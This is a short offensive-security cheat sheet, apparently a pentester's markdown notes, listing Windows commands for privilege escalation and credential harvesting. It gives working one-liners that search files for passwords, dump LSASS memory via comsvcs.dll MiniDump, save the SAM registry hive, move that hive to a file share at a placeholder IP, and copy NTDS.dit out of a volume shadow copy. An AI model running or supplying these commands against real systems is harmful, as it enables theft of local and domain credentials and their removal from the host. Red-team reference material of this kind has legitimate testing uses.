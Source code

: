 # powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Powershell - List running processes
```
tasklist /svc
```
## Powershell - Search for "password" in files
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Display LSASS process information
```
Get-Process lsass
```

## Create LSASS memory dump
```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

## reg.exe - Save a copy of a registry hive
```
reg.exe save hklm\sam C:\sam.save
```

## Transfer file to a file share
```
move sam.save \\<ip>\NameofFileShare
```

## cmd.exe - Copy NTDS.dit from shadow copy
```
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

## vssadmin - Create volume shadow copy
```
vssadmin CREATE SHADOW /For=C:
```
